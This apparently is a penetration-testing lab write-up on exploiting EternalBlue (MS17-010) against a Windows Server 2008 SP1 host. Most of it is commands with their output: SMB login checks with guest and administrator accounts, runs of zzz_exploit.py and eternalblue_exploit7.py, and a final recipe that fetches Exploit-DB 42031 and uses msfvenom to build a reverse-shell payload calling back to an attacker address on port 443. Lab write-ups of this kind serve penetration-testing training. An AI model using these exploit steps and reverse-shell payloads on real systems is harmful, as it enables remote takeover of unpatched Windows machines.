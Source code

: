 Attempted to login with only the username `password`.
```
vim checker.py # USERNAME = 'guest', PASSWORD = ''
python checker.py 192.168.120.40 
 
# output
Login failed: STATUS_ACCOUNT_DISABLED
Target OS: Windows Server (R) 2008 Standard 6001 Service Pack 1
```

Attempted to login with only the username `administrator`.
```bash
vim checker.py # USERNAME = 'administrator', PASSWORD = ''
python checker.py 192.168.120.40

# output
Login failed: STATUS_LOGON_FAILURE
Target OS: Windows Server (R) 2008 Standard 6001 Service Pack 1
```

Attempted to run even without a valid username.
```bash
python zzz_exploit.py 192.168.54.40

# output
Target OS: Windows Server (R) 2008 Standard 6001 Service Pack 1
Not found accessible named pipe
Done
```

Attempted to run the Windows 7 and/or Windows Server 2008 SP1 specific exploit (without a username; ref: https://www.trenchesofit.com/, http://a41l4.blogspot.com/).
```bash
python eternalblue_exploit7.py 192.168.54.40 rshell.bin 

# output
shellcode size: 324
numGroomConn: 13
Target OS: Windows Server (R) 2008 Standard 6001 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
impacket.nmb.NetBIOSTimeout: The NETBIOS connection with the remote host timed out.
```

### EDB-ID-42031
The following steps demonstrate how to exploit CVE-????-???? against Windows 7 and/or Windows Server 2008 32-bit/64-bit SP1, SP2, and R2 using EternalBlue.  
```bash
mkdir 42031
cd 42031
searchsploit -m 42031
python 42031.py
# output: 42031.py <ip> <shellcode_file> [numGroomConn]
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.120 LPORT=443 -f raw EXITFUNC=thread -o rshell.bin
python 42031.py 192.168.120.40 rshell.bin 
```
